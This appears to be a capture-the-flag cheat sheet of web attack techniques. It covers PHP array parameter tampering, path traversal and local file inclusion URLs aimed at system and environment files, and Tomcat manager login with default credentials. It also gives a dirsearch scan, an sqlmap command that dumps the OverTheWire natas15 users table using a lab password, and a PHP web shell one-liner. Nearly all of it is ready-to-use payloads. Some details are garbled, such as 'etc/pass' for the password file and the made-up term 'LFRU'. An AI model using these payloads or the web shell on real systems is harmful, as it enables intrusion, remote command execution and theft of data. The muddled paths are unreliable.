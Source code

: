 # Tips and Tricks for Web


## PHP []
When Submit was pressed, a POST request was sent to the server containing:  
```
password=yourinput
```
We break the application by passing an array as the password.  
```
password[]=
```

## Web Upload

If we have a LFRU (Local File Remote Upload) we use:
`http://website.com:port/files/../../../../etc/pass`.
If that doesnt work we then use
`http://website.com:port/files/..%2F..%2F..%2F..%2Fetc%2Fpass`
for LFI.

If `etc/pass` is useless we use then `/proc/self/environ` by `http://website.com:port/files/..%2F..%2F..%2F..%2Fproc%2Fself%2Fenviron`
Add more %2F inbetween if needed.

## Tomcat Manager
Apache Tomcat has a `manager`, so inorder to access him we place this at the end of the url `/manager/html`.  
If luck still isnt on our side, we add tomcat default credentials too at the begining of the url, such as: `http://tomcat:tomcat@host:proxy/manager/html`


## dirsearch

python3 dirsearch.py -u host --proxy=http://host:port/ -e sh,txt,php,html,htm,asp,aspx,js,xml,log,json,jpg,jpeg,png,gif,doc,pdf,mpg,mp3,zip,tar.gz,tar

## SQL Map
./sqlmap.py --auth-type=basic --auth-cred=natas15:AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J -u http://natas15.natas.labs.overthewire.org/index.php --data="username=a" -p username --string=doesn --level=5 --user-agent=Mozilla --dbms=MySQL --threads 4 -D natas15 -T users --dump

## Image Valun
<?php system($_GET['cmd']); die(); ?>
